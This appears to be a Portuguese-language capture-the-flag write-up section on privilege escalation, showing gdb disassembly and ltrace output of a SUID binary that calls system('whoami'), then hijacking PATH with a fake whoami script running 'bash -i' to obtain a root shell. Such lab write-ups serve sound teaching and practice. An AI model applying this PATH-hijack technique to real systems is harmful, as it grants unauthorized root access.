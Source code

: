## PrivEsc

Olhando os arquivos da pasta pessoal vi que em Desktop havia um arquivo chamado a.out, ele é um SUID, ou seja, ele executa como root. O que o programa faz é setar usuário e grupo e fazer uma chamada do sistema
```
$ gdb -q a.out
Reading symbols from a.out...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x00000000004005b6 <+0>:	push   %rbp
   0x00000000004005b7 <+1>:	mov    %rsp,%rbp
   0x00000000004005ba <+4>:	mov    $0x0,%edi
   0x00000000004005bf <+9>:	mov    $0x0,%eax
   0x00000000004005c4 <+14>:	callq  0x400490 <setgid@plt>
   0x00000000004005c9 <+19>:	mov    $0x0,%edi
   0x00000000004005ce <+24>:	mov    $0x0,%eax
   0x00000000004005d3 <+29>:	callq  0x4004a0 <setuid@plt>
   0x00000000004005d8 <+34>:	mov    $0x400674,%edi
   0x00000000004005dd <+39>:	mov    $0x0,%eax
   0x00000000004005e2 <+44>:	callq  0x400470 <system@plt>
   0x00000000004005e7 <+49>:	mov    $0x0,%eax
   0x00000000004005ec <+54>:	pop    %rbp
   0x00000000004005ed <+55>:	retq   
```  

Se executarmos o ltrace podemos ver que binário ele chama na função system
```
$ ltrace ./a.out 
__libc_start_main(0x4005b6, 1, 0x7fffee314c38, 0x4005f0 <unfinished ...>
setgid(0)                                                                                               = -1
setuid(0)                                                                                               = -1
system("whoami"hummingbirdscyber
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                  = 0
+++ exited (status 0) +++

```
Como pode-se ver., seta o grupo e o user para 0, que são identificações para root, e em seguida chama o comando whoami, que diz qual usuário que estamos logados, como o programa executa como root, ele mostra a sáida como root
```
$ $ ./a.out 
root
```

Os comandos são encontrados com base na variável do sistema PATH, então se adicionarmos outro diretório à PATH com um programa chamado whoami, ele vai executá-lo ao invés de executar o verdadeiro, que está em /bin. Então basta criar um arquivo chamado whoami e adicionar o seguinte conteúdo
```
#!/bin/bash
bash -i
```
e mudar o valor da variável PATH:
```
$ export PATH=$PWD:$PATH
$ echo $PATH
```
E executar o a.out
```
$ ./a.out
#
```